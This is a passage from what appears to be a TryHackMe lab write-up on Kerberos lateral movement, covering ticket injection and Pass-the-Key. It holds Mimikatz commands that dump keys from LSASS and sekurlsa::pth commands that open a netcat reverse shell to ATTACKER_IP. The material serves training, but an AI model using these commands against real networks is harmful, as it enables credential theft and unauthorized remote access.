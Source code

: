 Check if the tickets were correctly injected using klist:

```powershell
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

***

### <mark style="color:green;">Overpass-the-hash / Pass-the-Key</mark>

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-key (PtK)**.

We can obtain the Kerberos encryption keys from LSASS using Mimikatz:

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

We can run these commands to get a reverse shell via Pass-the-Key using `nc64.exe`

RC4 hash:

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

AES128 hash:

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

AES256 hash:
